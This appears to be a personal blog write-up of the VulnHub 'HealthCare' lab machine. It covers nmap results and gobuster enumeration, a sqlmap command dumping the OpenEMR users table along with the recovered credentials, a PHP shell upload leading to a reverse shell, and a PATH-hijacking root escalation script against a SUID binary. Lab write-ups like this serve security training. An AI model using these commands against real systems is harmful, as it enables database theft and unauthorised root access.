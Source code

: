 ```yaml
---
layout : post
title: HealthCare

date: 2021-03-01 04:43 EST

tags: [sqlmap,PathHijacking Linux,php File Upload]
---
```


# Nmap

```
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:12:B9:5A (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

```
# Enumeration

<h3>Gobuster</h3>

![]({{site.baseurl}}/img/vulnhub/EVM1/gobutser.png)

found openemr // lead to sql injection at login page 

# Exploitation 

```
sqlmap -u http://10.0.2.37/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump

```

![]({{site.baseurl}}/img/vulnhub/EVM1/sqlmap.png)

from `sql creds` , logged into `ftp`

```
medical : medical 
ackbar : admin 
```

![]({{site.baseurl}}/img/vulnhub/EVM1/ftp.png)

uploaded php shell into `var/www/` folder 

got reverseShell 

# Privilage Esclation 

from suid , healthChecker is executing the fdisk , ipconfig without path 

![]({{site.baseurl}}/img/vulnhub/EVM1/suid.png)

can override the  `ifconfig` , path 

The program is vulnerable because we control the PATH and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on /bin/bash, name it fdisk and call /usr/bin/healthcheck after setting the path to my current directory so it doesn’t execute the real fdisk program but my own script

```bash
cd /tmp 

echo "/bin/bash" > ifconfig

chmod +x ifconfig

export PATH=/tmp:$PATH

/usr/bin/healthcheck

//got root access

```



![]({{site.baseurl}}/img/vulnhub/EVM1/root.png)